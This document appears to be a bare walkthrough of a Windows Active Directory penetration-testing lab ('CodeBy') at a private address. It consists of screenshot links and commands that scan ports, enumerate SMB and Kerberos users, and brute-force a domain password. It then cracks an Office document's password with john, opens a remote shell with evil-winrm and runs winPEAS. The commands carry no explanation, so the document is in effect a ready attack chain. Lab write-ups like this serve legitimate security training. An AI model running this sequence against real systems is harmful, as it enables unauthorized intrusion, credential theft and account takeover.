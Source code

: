 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c16212f1-d41a-4d2b-a75a-691ecc0b5fe8)
```
nmap -p- 192.168.2.6 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d7b61cca-0808-4a02-ab7c-560608ea7f29)
```
enum4linux-ng 192.168.2.6
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bd453887-4dea-4225-9bde-d773b70e44ad)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.6 /home/kali/PayloadsAllTheThings/SecLists/SecLists/Usernames/xato-net-10-million-usernames.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/941e6f33-2a43-40df-bdf1-511c56f6a494)
```
./kerbrute_linux_amd64 bruteuser -d codeby.cdb --dc 192.168.2.6 /home/kali/PayloadsAllTheThings/SecLists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt ekaterina
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8035c75c-d20f-4708-83b9-df86047e220a)
```
enum4linux-ng 192.168.2.6 -u 'ekaterina' -p 'ekaterina'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/24d96388-7794-41b7-9e51-8470c4dec474)
```
smbmap -u "ekaterina" -p "ekaterina" -d codeby.cdb -H 192.168.2.6
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f120e4b2-c956-4931-bf30-571290b37ac1)
```
smbclient //192.168.2.6/Ekaterina -U ekaterina
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3c3a1463-1afb-4b0b-a082-19dedf55245a)
```
office2john confidental.docx > hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2dd71b05-1859-4077-80c0-f9bbd6130c9e)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bdd4cc23-4bf3-4758-8517-39ff59e2c009)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ca25d04-9f63-41fc-81e9-67b453f73b1f)

```
evil-winrm -i 192.168.2.6 -u a.gusev -p PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/21b7a047-2c2a-4acf-8ce9-40963bd38006)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9be9c7c3-539a-4892-84bf-68fa22459e4f)
```
./winPEASx64.exe
```





